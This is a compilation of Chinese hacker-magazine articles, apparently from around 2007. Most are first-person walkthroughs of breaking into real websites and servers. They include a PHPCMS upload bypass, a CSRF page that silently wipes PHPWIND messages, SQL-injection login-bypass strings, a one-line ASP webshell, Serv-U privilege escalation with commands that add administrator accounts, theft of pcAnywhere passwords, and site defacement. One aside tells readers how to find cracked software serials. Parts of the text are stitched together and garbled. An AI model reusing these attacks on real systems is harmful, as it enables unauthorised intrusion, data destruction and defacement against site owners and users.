PHPCMS 是 PHP 领域相当成熟的 CMS 系统，其地位类似于 ASP 领域的动易，最新版是 3.0。这次 PHPCMS 3.0 竟被爆出了上传漏洞，着实吓了我们一跳。不过仔细了解后才知道，PHP 和 PHP3 这两种类型的文件是不能上传的，其他都行。不过考虑到很多网站现在都是同时支持 ASP、PHP、ASP.NET 等类型的文件，那么上传一个 ASP 木马也一样可以得到 SHELL，因此漏洞的利用价值还是很高的。

### 一、原理介绍

ads/upload.php、uppic.php 中的 upfile_type 变量过滤不够严格，可以自己伪造上传类型。该文件包含了 /class/upload.php，可能对上传文件的类型进行了简单限制，因此实际测试中上传 php 文件失败。再者，访问这两个文件进行文件上传操作，必须是在已登录情况下才能进行，因此入侵之前必须要注册一个 ID。

### 二、漏洞利用

首先要搜索目标，可以用“Powered by phpcms 3.0.0”为关键字进行搜索（图1）。


找到目标后就要抄家伙了，在这之前先访问一下 http://www.xwpx.com/phpcms/ads/upload.php 确定上传页面是否存在。这里管理员已经给我准备好了上传页面，但是需要用户登录才能访问。此时程序会自动转到注册用户页面，注册 OK 后，程序会自动登录。

再次访问 http://www.xwpx.com/phpcms/ads/upload.php，点击右键“查看源文件”找到这个地方（图2）。


```html
<form name="upload" method="post"
action="http://www.xwpx.com/phpcms/ads/upload.php?action=upload&url=&upfile_type=asp"
enctype="multipart/form-data" onSubmit="return checkform();">
```

把 ACTION 地址修改为对应的 URL，还有 upfile_type 也要相应地改成 upfile_type=asp 或者你要上传的文件类型。保存文件，然后再刷新一下 IE，这是为了让 IE 重新加载我们修改过的上传漏洞利用页面（图3）。

点击浏览选择一个木马，开始传喽！……这时需要查看源文件才能找到木马地址（图4）。这里得到的地址是 ads/uploadfile/200612/20061212110921/34.asp，考虑到站本身地址是 http://www.xwpx.com/phpcms/ads，完整地址可由此拼接得到的路径就应该是 `http://www.xwpx.com/phpcms/ads/uploadfile/200612/20061212110921/34.asp`。访问看看成功没有（图5）。


如果你不死心，想上传个 PHP 文件试试，会如图6所示，失败了！（测试站点为官方网站。）

### 三、结尾

因为时间的关系，只介绍到拿到 webshell 就停止了。接下来可以怎么做就看大家的基本功了，提权也好，挂马也好，千万记住别玩太过火就行。

> （截稿时，小弟在网上搜集到了一个本漏洞的利用工具，已收录到光盘中。）

## 社会工程学再曝 PHPWIND 短消息漏洞

李嘉义

> 前言：自从第一个创业团队“北极攻击波”解散至今，很多安全研究已经没时间做了，不过异常老套地在新年依千万个里之外了。这两天无意中发现了 PHPWIND 的一个小漏洞，抽空整理出来供众菜鸟一笑而已。

### 一、漏洞概要

- 漏洞名称：PHPWIND 清空短消息漏洞
- 涉及版本：此漏洞适用于 PHPWIND 5.0.1 以及之前的所有版本
- 漏洞描述：由于 `message.php` 在处理清空短消息时没有做过滤，导致绕过前台的 JS，在没有任何提示的情况下清空收件箱和发件箱的全部内容。

### 二、漏洞分析

PHPWIND 论坛的短消息功能的导航栏最后一项是“清空”，从表面上看没有任何问题，因为要是误点击的时候会出现一个提示（如图1），然而这个一眼就可以看出是客户端语言 JavaScript 控制的。下载一个最新的 PHPWIND 版本 5.0.1，查看一下前台模板（message.htm）的源码，确认果然是用 JS 做的检查，如图2和图3。


```html
<td class="f_one"><a href="$secondurl?action=clear" onclick="return checkset();">清空</a></td>
```

```javascript
function checkset(){
    if(confirm("将删除收件箱和发件箱内所有消息，确认!")){
        return true;
    } else {
        return false;
    }
}
```

前台看完了，那么 `message.php` 是如何处理的呢？于是 274-279 行，找到了下面这段代码：

```php
if ($action=="clear") {
    $db->update("DELETE FROM pw_msg WHERE type='rebox' AND touid='$winduid'");
}
```

## 一个人的战争

```php
$sql->update("DELETE FROM pw.msg WHERE type='sbox' AND fromid='$windid'");
getusermsg($windid,$winddb['newpm']);
Showmsg('del_success');
```

懂点 PHP 的人一眼就可以看出，这里没有进行过滤，只要变量 action 的值等于 clear，就可以执行数据库 pw_msg 表的删除数据操作。也许有人反驳，这算什么漏洞……那么下面举例说明一下这个漏洞利用的一些方式。

这一步是最核心的，请仔细关注。在选中图层 1 的第一帧后的脚本动作部分，输入 `getURL("此处填写目的网址","_blank");`，如图7。


最后一步就是按“Ctrl+Alt+Shift+S”导出为影片格式（注意：在本地回放安全性里，选择只访问网络），如下图8。下面的上传 Flash 以及发帖就不再赘述。

### 三、漏洞利用

**案例一：**  
某君收集美女照片发布在一知名论坛中，并以此女子身份公布一个网址，诱其进入自己的网页以便查看更多“此美女”的相关信息。短消息被清空。


- 相关技术：网页制作

1. 新建一个文本文档，将后缀名改为 `.htm`；
2. 编辑此文件，在文件内输入以下代码。

```html
<script language="javascript">
window.navigate('http://.../message.php?action=clear');
</script>

或

<meta http-equiv="refresh" content="0;URL=http://.../message.php?action=clear">
```


类似方法还有很多，自己研究去吧。

**案例二：**  
某君用一个与网站背景色融为一体的 Flash 武器配合一篇网络热门帖，几近贴者伤于无形，短消息全部清空，无人幸免。相关技术：Flash 武器制作（安装软件、新建 Flash 文档、设置 1×1 像素等）。

### 闲话

其实通过社会工程学对漏洞进行利用的方法有很多，这里给大家更多的发挥空间吧。程序员写程序时不要忽略社会工程学因素。


> 小编点评：文章指出社会工程学在漏洞利用中的现实危害，提醒开发与站点管理者重视相关风险。


### 一、起因

大清早还没起床，X 档案稿费通知单就到了。随后在网上闲逛来到“唐古拉”主站，便顺手做一次“安全检测”。

### 二、首战告败

由于本人是个菜菜，技术与工具检测并用，启用 D2.32 扫描，找到若干注入点。

拿其中一个检测一下。天啊，居然是 SA 权限，如图3！难道上天这么可怜我，次次给我 SA 权限？接着干嘛呢？猜表猜列猜用户名和密码登录后台，再想办法得到 webshell？这种体力活我是不干的，除非迫不得已。SA 权限嘛，我怕谁。用我以前的老办法就行啦，先列出 WEB 目录，然后用 SA 写入一句话，再写入小马，再写入大马不就行了。还猜什么用户名密码嘛。当时我是这样想的，因为这样确实可以很快搞定 SA 权限下的站，不过条件是要能列出 WEB 目录，而且 WEB 服务器与 Data 服务器要在同一服务器上才行。如果 WEB 服务器与 DataBase（数据库）服务器分离的话是根本上列不出 WEB 目录的。唉，很不幸，唐古拉这个站就是列不出 WEB 目录，郁闷啊！一连列了几个都提示内容为空，程序不能进行检测，如图4。难道现在瞎猜表猜列？虽然是个菜菜，但是说了不猜就不猜，我就是不猜你，不信拿你不下。


图1


图2


图3


图4

### 三、一战凯旋

注入这条路我不能走下去了，因为说过不能猜它嘛。上传我也懒得去看它了，老弄这些也没什么新意思。在 X 的新书发布那里看到了 11 期的目录里有一篇职业欠扁大侠写的“Windows 菜鸟最新入侵大法，从 IIS 写权限下手”的文章。觉得很有意思，不过 X 的 11 期的书还没到，我看不了，又买不到（各位老大请允许我痛哭 N 秒，5555555555）。无奈之余就只能凭着这条“IIS 写入”的信息在网上狂搜资料了。皇天不负有心人，终于让我找到了相关的利用工具，至于使用方法嘛，自己折腾了半天也总算学会了。废话说了不少（偶从众菜菜的鲜花和鸡蛋堆中走出来继续战斗），下面开始“一战”。拿出刚刚找回来的 zwell 写的“IIS 写入漏洞扫描工具”，对目标唐古拉的 IP 扫了一下，发现老天爷对我真的很不错，漏洞存在！这回终于有法子搞了（奸笑 N 秒……嘿嘿……），如图5。


图5

既然漏洞存在就好办多了。右键选中目标，在弹出的菜单中选择 Put file，为文本取个名字，内容就是 ASP 马的内容，填好之后按 PUT 按钮就 OK 了，如图6。提示成功上传了；然后再拿出老兵的“老兵 IIS 可写权限利用”工具继续作战。填好相关信息就提交数据包，返回成功了，如图7。


接着访问我们可爱的马儿，如图8。到此，webshell 已经成功拿到手了！


### 四、向服务器权限进军

有了 webshell 办什么事都方便多了，现在目标是拿下服务器权限了。这样就需要得到更多服务器的相关信息。试着执行一下命令发现拒绝访问了，如图9。看来 webshell 的权限不是很大，不过在这目录能跳转已经算好运的了。再跳回站点根目录，发现有 N 多 aspx 文件。嘿嘿，这回又有得搞了，一般 aspx 马的权限要比 asp 马的权限高。试着上传了 lake2 大侠的 aspx 马 WebAdmin2XF（是个 aspx 的好马 ^_^），访问发现成功解释执行了，而且还可以成功执行命令，如图10。


执行 net start 命令发现开了 Serv-U FTP 服务、Terminal Services。这两个服务，在我们的渗透过程里无疑是最想看到的了。Serv-U 提权也是众多提权方法之中比较火的一种了，如果 Serv-U 的默认连接密码没有改的话直接是以系统权限执行任意命令的。最近又在学习提权，这方面的 N 多脚本马已经问世了。试着用 aspx 马执行添加用户命令，发现无法添加。虽然 aspx 马的权限比 asp 马的权限高了，但是还不能直接添加系统用户。那就要试下 Serv-U 提权了。上传了 Goldsun 的 Serv-U 提权 asp 马，如图11。


执行添加一个用户名为 hackest 的用户，并添加入管理员组，提示成功。然后用 aspx 马执行 `net user` 命令确认已成功添加了一个 hackest 用户，如图12。

用 SuperScan3.0 扫描一下 3389 端口，发现开放，如图13。再下来当然是连接了，不过发生了意外，根本没有出现登录框，3389 无法进去，如图14。成功添加了用户不能连接无疑是世上挺郁闷的事了，这种情况我还是第一次遇到，一下子还没有办法解决！


### 五、曙光再现

还是再回到 webshell 里看看吧，到处转了转。又发现目标服务器上还装了 pcAnywhere！天大的好消息啊……（激动 ing）

用 SuperScan3.0 扫描一下目标服务器的 pcAnywhere 默认连接端口 5631，发现开放，如图15。


赶紧跳到 `C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\` 目录下看看有没有 pcAnywhere 的密码文件，发现一个 CIF 文件，应该就是密码文件了，如图16。


二话不说，下载回来，用 PCAnywhere.PassView v1.11 查看密码，如图17。


然后用 PCAnywhere 连接，终于连接上了，如图18。虽然目标服务器处于锁定状态，但是有了管理员权限还有什么不能做的呢。点击“传送 Ctrl+Alt+Del”出现了 Windows 登录窗口，用户早就加了，还等什么，赶紧登录进去，如图19。

个人感觉 pcAnywhere 就是太慢了，比不了 Windows 自带的远程桌面！虽然服务器权限已经拿到了，不能登录 3389 还是不爽。


图18

用户，用于传送文件。虽然 pcAnywhere 也有传送文件的功能，但是我觉得还是用 FTP 快点。要替换也要知道哪个文件要被替换才行，而且替换了那个 dll 文件之后要不影响服务器相关功能才行。分析之后初步确定要替换的文件就是 awgina.dll，这个在 3389 连接弹出的框中已经很明显显示了。但是用哪个文件替换它才能正常连接登录 3389 呢。经过大量的资料查询，发现安装旧版本的 pcAnywhere 的时候，pcAnywhere 会把 Windows 的 msgina.dll 文件用它自带的 awgina.dll 替换掉！那么一来，只要把 awgina.dll 用 Windows 自带的 msgina.dll 替换回来不就可以正常连接登录 3389 了吗！于是我在我自己的 XP 系统中找到 msgina.dll 这个文件，用 FTP 连接工具连接上目标服务器，备份了 awgina.dll 之后，用 msgina.dll 替换了上面的 awgina.dll。再连接 3389，发现已经可以正常连接了，如图20。


图19


图20

### 六、终结3389

于是又上网大量查找关于刚才连接 3389 出现的那个问题，原来是一个 dll 文件被不兼容版本覆盖了。装了旧版本的 pcAnywhere 就会出现这个问题。还有一种情况就是装了 gian2000 也会出现这个问题。根据现在的情况应该是装了旧版本的 pcAnywhere 造成的。这也只是我个人的推断，如果有错还请各位大侠批评指正。既然是一个 dll 文件被替换了，那我再把它替换回来不就可以登录 3389 了么。想到是没有用的，做到才有用！于是用 pcAnywhere 的远程控制功能添加了一个具有最高权限的 FTP 用户……

### 小技巧破解上万注册码

网上有许多令人心动的共享软件，可惜的是它们或多或少都存在各种限制。对于我等贫苦一族来说，面对昂贵的注册码费用只能望而却步，而且支付起来也不太方便（特别是国外的共享软件）。现在，只要利用 Google 强大的搜索功能，再配合一定的搜索技巧就会让你有意外的发现：打开 Google 的搜索页面后，在搜索栏内填“要搜索的软件名称”，空格，并在后面加上“94fbr”的搜索代码（例如 WinZIP: 94fbr），单击“搜索”按钮后你会看到所要的东西了。但该方法也并不是万能的，当没有找到合适的结果，则不妨再试试输入“软件名称 crack OR sn OR 破解”……一般都能找到了。

pcAnywhere 的远程控制功能也可以正常使用，那么基本上说明替换了没有出现什么问题就可以了。目标服务器还是大家伙呢，4 个 CPU 哦！还是 Xeon 啊……真是个牛 X 的服务器！至于替换 dll 文件的问题如果有错请大家批评指正，因为我也是第一次遇到这种情况，不知道怎样解决，方法又是自己乱弄出来的，不知道会不会对目标服务器造成不良影响。具体操作就参考我的操作录像吧，不明白的话随时上 X 的论坛找我，ID：hackest。

### 七、总结

其实这次入侵主要是利用了 IIS 写入权限漏洞，大家渗透的时候也不一定非要注入、上传什么的。多收集目标的信息，进而突破。注入不是万能的，SA 的注入权限有时候也会发挥不了作用。还有想说下的就是各位写文章的大侠们，技术文章和其他文章不同，慷慨是慷慨，不慷慨是节操，自己不明白的部分，不要随便一句话带过就了事，那样作假的文章看了不但害人也对 X 不住，骗稿费的行为是可耻的！总之，安全是一个整体，任何一方面做得不好都会给整个服务器带来致命的威胁。最后想说的一句话：没有绝对的安全，只有绝对的不安全！

> **小编点评：** 作者的总结里把我想说的话基本上都概括了。本文最可取、最值得阅读的地方就在于没有把眼光局限在注入之类的传统漏洞上，通过 IIS 写权限轻松就获取了 webshell，比注入来得快多了。而作者独立思考、通过 Google 解决问题的思想，勇于尝试的精神更是值得小菜学习的。

## 记一次入侵虚拟主机全过程

yizhigu [S.H.C]

有句话说得好，学以致用。菜鸟的入侵就是从不断的学习和实践中锻炼出来的。这次我就给大家带来一个入侵服务器的全过程，其中的成功主要得益于 6 月的 X 上介绍的 eWebEditor 跳目录漏洞，当然，也希望大家学到一些入侵和提权的小技巧。

### 一、入侵前的寂静

这次入侵是以黑客防线的网站服务器同机房内的任意一个 IP 为目标……把 IP 丢到 Domain 里进行查询，发现服务器绑定了多个域名，是一个很典型的虚拟主机。


从 http://whois.webhosting.info 查询该 IP 的相关信息并显示给用户。其实还有一个更好的查询网站 http://www.domaintools.com/reverse-ip ……（图2）

### 二、黑暗中的刺杀

利用 Domain 自带的查询功能发现该 IP 上有 31 个站点……最终在一个外语学校的网站 http://www.xxedu.net/ 找到了后台登录页。（图3）


可是漂亮不代表安全，在用户名和密码处均使用“万能登录密码”如 `'or''='`、`'or'='or` 等失败后，再测试 `' or 1=1 --`，最终成功。

> 小知识：万能登录密码  
> 其实这是利用 SQL 对输入变量过滤不严格引起的漏洞。常见输入示例：

```
' or ''='
' or 1=1;--
1' or '1'='1
```

在新闻文章添加的地方找不到上传，不过这个编辑窗口很像熟悉的 eWebEditor……

脚本一写提交 URL：`http://www.xxedu.net/ewebeditor/admin_login.asp`，出现了 eWeb 登录页面。尝试访问默认数据库 `/db/ewebeditor.mdb`……在 `ewebeditor_system` 表中找到管理员用户和密码（md5）。


### 三、柳暗花明

转到网站后台管理，不小心点到学院管理这个栏目，居然得到了 apple 这个用户的密码。（图5）把该密码 md5 后与数据库 `userpass` 一样，ewebeditor 后台拿下。（图6）


轻车熟路地在样式管理里拷贝一份样式并设置，尝试把上传项目后缀改为 asp（后有空格）对应上传不行，换 asa 和 cer 都失败，看来管理员意识到了漏洞危害。

数据库为 mdb 格式，猛然找到一篇关于利用设置 uploadfile 目录与 `../` 跳级漏洞浏览站点目录的文章。经过测试后可定位网站根目录并查看其它网站信息，这为后续利用提供了机会。


在多个网站目录中查找到数据脚本，推测可解出管理员信息；通过在线 MD5 查询得到口令。后台存在上传模板功能，上传 asp 木马后在模板管理中可见 webshell 地址。


### 四、直捣巢穴

通过 FSO 和 Shell.Application 读取磁盘信息，确认存在 Serv-U。进一步查看系统用户组与权限，发现对 `%windir%/system32` 的 `cmd.exe` 有限制，于是上传自带 `cmd.exe` 继续执行命令。

```bash
netstat -an
net start
f:\su.exe "net use SQLManager woaini /add"
f:\su.exe "net localgroup administrators SQLManager /add"
```

初始提权工具未成功，后检查到 ASPNET 用户并改用 `su.aspx` 脚本提权。随后执行 `net user yizhigu` 并确认管理员用户已在终端服务端口 3389 可登录。


`net user yizhigu` 显示超级管理员已创建成功，接下来通过 3389 远程登录即可。


### 五、总结

文章总结了从后台弱验证、泄露用户信息、目录跳转到 webshell 上传，再到 Serv-U 提权与远程登录的完整链路，指出设计缺陷与默认配置风险会导致服务器被快速接管。

> **小编点评**  
> 本文是较经典的入侵案例，细节多、步骤完整；强调了信息收集、哈希查询、提权方式选择与环境差异的重要性，并提醒读者在实际渗透中关注小细节与复现条件。

## 戏说我的日本网站之旅

hackest [E.S.T]

### 一、旅途开始

群里有位兄弟发话说，你们这些家伙天天研究那些什么漏洞，想着怎么去黑掉别人，不觉得没意思么？有本事黑几个日本站去！虽然有点过激，但也不无道理。我虽然是菜菜，也要去看看有没有本事黑几个日本站去。

### 二、撒网捉鱼

操起啊D，打开 Google，输入关键字“asp?id=”，每页显示设 100 页，语言为日文，一顿“歪注”之后出来 N 多注入点，如图1。


图1

随便找了一个，检测一下，发现可以注入，如图2。


图2

按照常规的方法先猜猜表、猜猜列什么的，不过用猜出的用户名和密码登录后发现后台无法利用。而且日文我也看不懂，后台利用的方式应该行不通了。好在是 SQL 注入，权限又是 DB_OWNER，只要能列出 WEB 目录，还是有希望搞的。于是试着列了下目录，发现可以正常列出来，如图3。

下一步就是找 WEB 目录了，打开网站看看哪些文件在上面能访问到，如图4。然后用啊D列目录，通过上面文件的一致性来确定哪个目录才是 WEB 目录。初步确定 F 盘为网站目录所在盘，再进一步列目录后最终确定 WEB 根目录为：F:\JR\初天摹億斥偶儡偖偶俚?satsueki.jp之\..。虽然看起来怪怪的，但这个的确是 WEB 根目录，如图5。


图3


图4


图5

## 一个人的战争

### 三、瓮中捉鳖

好了，万事俱备，只欠东风了。这所谓的东风就是利用 DB_OWNER 的注入权限通过 LOG 备份的方式写入一句话小马。手工也可以，用工具也可以，我就用工具了。这里推荐用 GetWebshell ah56bug 大众版。需要的信息有：注入点、注入类型、当前数据库、WEB 路径。这些信息在用啊D检测的时候都已经有了，全部填好之后如图6。


木马代码默认是一句话 `<%25Execute(request('ah'))%25>`，`%25` 就代表是空格。然后从第一步到第六步，不过点击的时候不要太快，一般控制在返回注入点页面的时候再点下一步就可以了。然后我们再访问一句话所在的页面，WEB 目录下的 x.asp 就是一句话藏身之处了。我们访问它，如图7。页面底部有出错信息，一般看到这样的语句就已经成功写进去的了。然后再用 ASP+PHP 两用 Shell 连接我们的一句话木马，提交环境变量。虽然返回的页面有点乱，但是已经连接成功了，我们可以看到返回了服务器上的一些信息，如图8。

### 四、山穷水复

本来以为这次入侵到这里就应该快结束了。可能大家都会先想用一句话上传小马，再用小马上传大马就可以了。可是并没有这么简单，用一句话上传小马的时候返回出错了，没有成功写入。后来发现目录根本不可写。于是就换了几个目录，发现大部分目录都没有写权限。


无法写入 ASP 马，那时候真想放弃了，不过想到群里那位兄弟说的话，不敢放弃啊。我就不信它上面没有一个可写的目录！经过半小时左右的查找终于发现了：F:\JR 树支持低屏偶监储器棚里 satsuki.jp\shop\img 目录可写！接下来当然是上传大马了。不过为了使返回的页面清楚一点，我在这个目录下重新写进了一句话，然后通过一句话上传大马，提示上传文件成功了。我们现在去访问可爱的大马，结果出现了意外！因为并没有看到登录入口，只看到了几行可恶的出错提示，如图9！当时真还以为马太大了，传的时候造成代码损坏了而导致出错呢。可是传了几次，还是一样的结果。又以为是语言的问题，就找了英文版的海阳传上去还是一样。问朋友要了几个马传上去访问还是出错！海阳的 C/S 端提交就出错，一句话提交的也过不了，还是不行！“郁闷”这两个字的意思那一刻我终于彻底明白了！


### 五、柳暗花明

万般无奈之下，唯有向他人求助了。于是上邪恶八进制论坛发了帖求救，一会儿就有位朋友来帮忙了。他告诉我在 ASP 页的第一行加上 `<%@ LANGUAGE=VBScript codepage="936" %>` 这么一行代码。我照着做了，在 ASP 页的最前面加上那一句代码，再传上去。然后访问，这一回看到了可爱的登录入口了（在此感谢那位朋友），如图10。至此 webshell 已经拿到了，如图11。


但进去之后发现很多文件的前面都是只读权限，连首页都改不了，就在可写目录传了个黑页，如图12。这个服务器上还有几十个日本网站，不过都是只读权限的，虽然有可写目录，但也不一一传黑页了。

> **关键词解释：代码页**  
> 代码页（code page）就是针对一种语言文字的字符编码。例如 GBK 的 code page 是 CP936，BIG5 的 code page 是 CP950，GB2312 的 code page 是 CP20936。在页面中加入这样的代码能够告诉浏览器应该用哪一种编码去显示和解释 HTML 代码。

> **小编点评：**  
> 很多人投来的文章经过我的手都会被涂涂抹抹得面目全非，惟独本文作者这个月的两篇文章是不需要我作什么改动的。首先是文章言之有物，有新的内容和主题；然后是描述得当，格式基本没有错别字。在这里小编要啰嗦一下：平时以后给我们投稿的作者在发文之前千万记得多审查几遍稿子，力求在格式、文字上不需要我们再太多的改动。这样小编才能抽出更多的精力去挑选更好的稿子献给广大读者。最后要声明一下本文的观点，并就“跨过语言障碍去入侵日本网站，从亚洲人民对日本的特殊感情来说，或许本文可以赢得很多青睐吧。”

### 六、反思

入侵结束了，但是那个加一行代码的问题，我当时还没有搞明白。搞定网站之后我去查了些资料。那行代码中 936 是一个叫代码页的代号，表示简体中文。950 就是繁体中文，932 就是日文。这个只要记住 936 是我们用的就可以，以后如果遇到网页文件出现乱码的情况可以试着加那一行代码，就能正常解释成简体中文了。

（文中涉及到的啊D注入工具、GetWebshell ah56bug 大众版、ASP+PHP 两用 Shell 连接器和作者制作的全程动画教程已收录到光盘中。）

## Copy 命令使用技巧

- 案例一：“copy”——文件合并
- 案例二：“copy”——批量重命名
- 案例三：“copy”——改文件日期

```bash
copy /b <filename1> + <filename2> + ... + <filenameN> > <filename>
copy /b video1.mpg+video2.mpg video.mpg

cd recycled
copy *.* e:\

copy <filename> +,
copy 123.dat+,
```

文章介绍了 DOS 下使用 copy 命令进行视频文件合并、批量重命名以及修改文件日期的实用技巧，并给出操作步骤与注意事项。

## 网络下载软件在黑客入侵中的应用

杨顺昌

在网络高速发展的今天，各种各样的网络应用软件层出不穷，网络功能也是越来越强大。本文将介绍一款看似普通的网络下载软件——网际快车是如何运用到黑客入侵中的（当然，你也可以选用别的下载软件，如迅雷之类的），为大家揭开黑客五花八门的入侵手段。

《何乐 asp 相册系统》是一款使用广泛的相册系统。表面上看去程序写得很理想，可却暗藏致命弱点——存在上传漏洞！笔者应用下述的方法，已经成功地侵入到了应用这种系统的一个网站。这里用本机架设的一个环境来为大家演示吧！（图1）

搭建好环境后，选择“快速注册”（图2）进入到图3的界面，随便输入一个用户名和密码进行注册，之后“上传照片”（图4），如图5。


上传一张正常的照片时如图6，在对相册 ASP 代码进行分析和对传输到后台的数据进行查看后，可以得到一个结论：这个系统没有验证数据的合法性，就轻易地把连后缀都没改名的文件上传到了后台。


试着把一个 ASP 文件“Backdoor.asp”上传到后台，看看会发生什么情况。（图7、图8）提示不允许上传这种类型的文件了，事实上是什么样的呢？我们看看 pic 目录下发生了什么吧，如图9。


看到这，聪明的你应该明白了吧？虽然它提示我们不能上传 ASP 木马，可是马已经被上传到了服务器中！扩展名依然是 asp，它的命名方式为“年月日”+“时间”+“秒”+扩展名，例如 2006 年 11 月 23 日 22:35 分 28 秒上传的文件名就是 20061123223528.asp。只要大致猜测到时间范围，就能定位到该文件名。

三位数字大家要怎么猜呢？难道去地址框中手工从 500 到 899 地测试？！当然是否定啦，网络下载软件——网际快车为我们提供了功能强大的批量下载功能，可以轻易解决这个问题。网际快车在“任务”菜单中有一个常用的功能“添加成批任务”……设置范围从 500 到 899，如图10。


确定后网际快车就开始挨个下载了，如图11；可是只有一个是能够被下载成功的，切换到“已下载”分类中，如图12。


这个文件的完整路径就是我们的 ASP 木马所在了，在 IE 中输入这个路径，如图13，成功得到一个 webshell。

> **结束语：** 在茫茫的网络中，网站的安全是一个非常重要的问题，任何一个小小的漏洞都可能给各大网站带来灭顶之灾……

> **小编点评：** 文章发掘的是一个相册系统，在本机搭建环境进行演示——既不伤害别人，又能够方便地查看每一步动作的效果……

（文中涉及到的网际快车已经收录到光盘中。）

## 菜鸟新声——QQ、UC 远程溢出漏洞也拜年

刚过元旦，国内著名的安全小组“幻影旅团”就弄了个“迎接 2007 元旦”漏洞利用活动，一下子发布了诸多漏洞……包括迅雷漏洞、WinZip 漏洞、QQ 远程溢出漏洞和 UC 远程溢出漏洞等。

然后就可以根据“CLSID={AC3A36A8-9BFF-410A-A33D-2279FFEB69D2}”调用并触发该漏洞。简单说，就是不需要用户登录 QQ，也能触发漏洞。腾讯 QQ 2006 正式版及之前所有版本（未升级 2007.1.1 补丁前）都能被利用。

### 一、QQ 远程溢出漏洞

QQ 在安装的时候，会在系统里注册一个 ActiveX 组件，问题就发生在这些组件上。只要用户安装过 QQ，在使用 IE 浏览器时……使用方法很简单，是一个下载并运行指定文件的网页木马。